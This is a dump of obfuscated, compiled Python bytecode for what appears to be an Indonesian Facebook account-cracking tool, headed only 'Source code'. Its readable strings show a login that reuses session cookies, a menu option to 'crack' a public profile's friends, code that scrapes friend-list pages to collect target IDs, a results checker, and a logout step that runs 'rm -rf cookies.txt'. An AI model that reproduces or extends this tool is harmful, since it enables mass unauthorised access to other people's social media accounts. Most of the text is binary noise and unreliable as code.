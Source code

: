 <v\x00\x90\x01r\x9bt\x1a|\r\x83\x01\x01\x00d\x00S\x00|\x0ed=v\x00\x90\x01r\xa5t\x1b\x83\x00\x01\x00d\x00S\x00|\x0ed>v\x00\x90\x01r\xbdt\x00\xa0\x01d?\xa1\x01\x01\x00t\x05d\x04d\x05\x83\x02\xa0\x08d\x06\xa1\x01\x01\x00t\td@\x83\x01\x01\x00d\x00S\x00t\x03dA\x83\x01\x01\x00t\x1c\xa0\x1ddB\xa1\x01\x01\x00t\x1e\x83\x00\x01\x00d\x00S\x00)CNr\x0e\x00\x00\x00rm\x00\x00\x00r\x1b\x00\x00\x00r\x1a\x00\x00\x00r\x0b\x00\x00\x00rf\x00\x00\x00\xf51\x00\x00\x00\n\xe2\x80\xa2 Anda Belum Login, Jalanlan Lagi Untuk Login!r0\x00\x00\x00r1\x00\x00\x00r2\x00\x00\x00r3\x00\x00\x00r4\x00\x00\x00r5\x00\x00\x00r6\x00\x00\x00r/\x00\x00\x00r7\x00\x00\x00r8\x00\x00\x00r9\x00\x00\x00r:\x00\x00\x00r;\x00\x00\x00r<\x00\x00\x00r=\x00\x00\x00r>\x00\x00\x00r?\x00\x00\x00r@\x00\x00\x00rA\x00\x00\x00rB\x00\x00\x00rC\x00\x00\x00rQ\x00\x00\x00rR\x00\x00\x00rU\x00\x00\x00rV\x00\x00\x00rW\x00\x00\x00rX\x00\x00\x00rY\x00\x00\x00rZ\x00\x00\x00r[\x00\x00\x00r\\\x00\x00\x00r]\x00\x00\x00r_\x00\x00\x00r`\x00\x00\x00ra\x00\x00\x00rc\x00\x00\x00rd\x00\x00\x00re\x00\x00\x00u2\x00\x00\x00\n\xe2\x80\xa2 Cookies Invalid, Jalankan Untuk Login Kembalirh\x00\x00\x00ri\x00\x00\x00rj\x00\x00\x00rk\x00\x00\x00r\x1c\x00\x00\x00rl\x00\x00\x00r+\x00\x00\x00\xfa\x0f[on bright_red]\xfa\x10[/on bright_red]z\x1b\n1. Crack Pertemanan Publikz\x122. Cek Hasil Crackz\t0. Logoutr-\x00\x00\x00r.\x00\x00\x00rn\x00\x00\x00)\x02\xda\x010Z\x0200z\x12rm -rf cookies.txtu!\x00\x00\x00\n\xe2\x80\xa2 Logout Berhasil, Terimakasihrp\x00\x00\x00rg\x00\x00\x00)\x1fr\x1d\x00\x00\x00r\x1e\x00\x00\x00r"\x00\x00\x00r#\x00\x00\x00rq\x00\x00\x00r%\x00\x00\x00r&\x00\x00\x00r)\x00\x00\x00r\x80\x00\x00\x00r\x7f\x00\x00\x00rr\x00\x00\x00rs\x00\x00\x00rt\x00\x00\x00ru\x00\x00\x00rv\x00\x00\x00rw\x00\x00\x00rx\x00\x00\x00ry\x00\x00\x00rz\x00\x00\x00r{\x00\x00\x00r|\x00\x00\x00r}\x00\x00\x00r~\x00\x00\x00r\x03\x00\x00\x00r$\x00\x00\x00r[\x00\x00\x00\xda\x0c___publik___r\x81\x00\x00\x00r \x00\x00\x00r!\x00\x00\x00r\'\x00\x00\x00)\x0f\xda\x04cokir\x82\x00\x00\x00r\x83\x00\x00\x00Z\x07___v___r\x84\x00\x00\x00r\x85\x00\x00\x00r\x86\x00\x00\x00r\x87\x00\x00\x00r\x88\x00\x00\x00rb\x00\x00\x00r\x89\x00\x00\x00r\x8a\x00\x00\x00r\x8b\x00\x00\x00r\\\x00\x00\x00Z\x02wsr*\x00\x00\x00r*\x00\x00\x00r+\x00\x00\x00r\'\x00\x00\x00z\x00\x00\x00s^\x00\x00\x00\n\x01\n\x01\x14\x01*\x01\x08\x01\x04\x01\x0e\x01\x1c\x01\x02\x80*\x01\x02\x01\x1c\x01\x0e\x01\n\x01(\x01\x0e\x01\x04\x01\x0c\x01\x0e\x01\x1a\x01\x02\x80"\x01\x02\x80\x04\xf8\x10\t\x12\x01\x02\xff\x02\x02&\x01\x10\x01\x12\x01\x02\xff,\x02,\x01,\x01,\x012\x01\x14\x01\x18\x01\x08\x01\x08\x01\x08\x01\x08\x01\x16\x01\x14\x010\x01\x1c\x01r\'\x00\x00\x00c\x01\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x15\x00\x00\x00\x13\x00\x00\x00C\x00\x00\x00sj\x03\x00\x00t\x00\xa0\x01d\x01\xa1\x01\x01\x00t\x02\xa0\x03t\x04\xa1\x01\x01\x00t\x03d\x02\x83\x01\x01\x00t\x02\xa0\x03t\x05\xa0\x06d\x03|\x00\x9b\x00d\x04\x9d\x03\xa1\x01\xa1\x01\x01\x00z\tt\x07d\x05d\x06\x83\x02\xa0\x08\xa1\x00}\x01W\x00n\x15\x04\x00t\ty8\x01\x00\x01\x00\x01\x00t\x07d\x07d\x08\x83\x02\xa0\nd\t\xa1\x01\x01\x00t\x0bd\n\x83\x01\x01\x00Y\x00n\x01w\x00t\x0cd\x0b\x83\x01}\x02t\r\xa0\x0e\xa1\x00}\x03d\x0c}\x04g\x00}\x05d\rd\x0ed\x0fd\x10d\x11d\x12d\x13d\x14d\x15d\x16d\x17d\x18d\x19|\x02\x9b\x00d\x1a|\x02\x9b\x00d\x1b|\x02\x9b\x00d\x1c\x9d\x07d\x1dd\x1ed\x1f\x9c\x0f}\x06zft\x0f|\x03j\x10d\x10|\x06d |\x01i\x01d!\x8d\x03j\x11d"\x83\x02}\x07|\x07\xa0\x12d#\xa1\x01D\x00]P}\x08|\x08j\x11d$k\x02r\xc5t\x0f|\x03j\x10d\x10t\x13|\x08d%\x19\x00\x83\x01\x17\x00|\x06d |\x01i\x01d!\x8d\x03j\x11d"\x83\x02}\t|\t\xa0\x14d&\xa1\x01d\'\x19\x00}\ni\x00}\x0b|\td(\x83\x01D\x00]\x16}\x0c|\x0c\xa0\x10d)\xa1\x01d*v\x00r\xb3|\x0b\xa0\x15|\x0c\xa0\x10d)\xa1\x01|\x0c\xa0\x10d+\xa1\x01i\x01\xa1\x01\x01\x00q\x9dt\x0f|\x03j\x16d,|\n\x17\x00|\x06|\x0bd |\x01i\x01d-\x8d\x04j\x11d"\x83\x02}\rquW\x00n\x12\x04\x00t\rj\x17j\x18y\xd9\x01\x00\x01\x00\x01\x00t\x03d.\x83\x01\x01\x00t\x0b\x83\x00\x01\x00Y\x00n\x01w\x00|\x04d/k\x00\x90\x01r\xafz\xbdt\x03d0t\x19t\x1a\x83\x01t\x19t\x1b\x83\x01\x17\x00\x16\x00d1d2\x8d\x02\x01\x00t\x1cj\x1d\xa0\x1e\xa1\x00\x01\x00t\x19|\x05\x83\x01d\x0ck\x02\x90\x01r\x07d\x19|\x02\x9b\x00d\x1a|\x02\x9b\x00d\x1b|\x02\x9b\x00d\x1c\x9d\x07}\x0en\x04|\x05d\x0c\x19\x00}\x0et\x0f|\x03j\x10|\x0e|\x06d |\x01i\x01d!\x8d\x03j\x11d"\x83\x02}\x0ft\x19|\x05\x83\x01d\x0ck\x02\x90\x01r\'|\x0f\xa0\x12d#d3\xa1\x02}\x10n\x06|\x0f\xa0\x12d#d4\xa1\x02}\x10|\x10D\x00]A}\x11|\x11j\x11}\x12d5|\x11d%\x19\x00v\x00\x90\x01rVt\x13|\x11d%\x19\x00\x83\x01\xa0\x1fd5d\x02\xa1\x02\xa0 d6\xa1\x01d\x0c\x19\x00}\x13t\x1a\xa0!|\x13\x9b\x00d7|\x12\x9b\x00\x9d\x03\xa1\x01\x01\x00\x90\x01q/t\x13|\x11d%\x19\x00\x83\x01\xa0 d8\xa1\x01d\x0c\x19\x00\xa0\x1fd9d\x02\xa1\x02}\x13t\x1b\xa0!|\x13\x9b\x00d7|\x12\x9b\x00\x9d\x03\xa1\x01\x01\x00\x90\x01q/d\x0c}\x14|\x0f\xa0\x12d#\xa1\x01D\x00]\x19}\x11d:|\x11j\x11v\x00\x90\x01r\x90|\x05\xa0"d\x0cd\x10t\x13|\x11d%\x19\x00\x83\x01\x17\x00\xa1\x02\x01\x00|\x14d/7\x00}\x14\x90\x01qx|\x14d\x0ck\x02\x90\x01r\x9b|\x04d/7\x00}\x04W\x00n\x0e\x04\x00t#\x90\x01y\xaa\x01\x00\x01\x00\x01\x00|\x04d/7\x00}\x04Y\x00n\x01w\x00|\x04d/k\x00s\xdft$|\x00\x83\x01\x01\x00d\x00S\x00);Nr\x0e\x00\x00\x00r+\x00\x00\x00r\x8f\x00\x00\x00r\x90\x00\x00\x00rm\x00\x00\x00r\x1b\x00\x00\x00r\x1a\x00\x00\x00r\x0b\x00\x00\x00rf\x00\x00\x00r\x8e\x00\x00\x00u#\x00\x00\x00\n\xe2\x80\xa2 Masukkan Id/Username Publik : r\x01\x00\x00\x00r5\x00\x00\x00r6\x00\x00\x00r/\x00\x00\x00r7\x00\x00\x00r8\x00\x00\x00r9\x00\x00\x00r:\x00\x00\x00r;\x00\x00\x00r<\x00\x00\x00r=\x00\x00\x00r>\x00\x00\x00r?\x00\x00\x00r@\x00\x00\x00z\r/friends?lst=\xfa\x01:z\x14:1650091992&refid=17rA\x00\x00\x00rB\x00\x00\x00rC\x00\x00\x00rQ\x00\x00\x00rR\x00\x00\x00rU\x00\x00\x00rV\x00\x00\x00rW\x00\x00\x00rX\x00\x00\x00rY\x00\x00\x00rZ\x00\x00\x00r[\x00\x00\x00r\\\x00\x00\x00r]\x00\x00\x00r_\x00\x00\x00r`\x00\x00\x00ra\x00\x00\x00rc\x00\x00\x00r4\x00\x00\x00u\x19\x00\x00\x00\r\xe2\x80\xa2 Mengumpulkan ID > %s\xfa\x01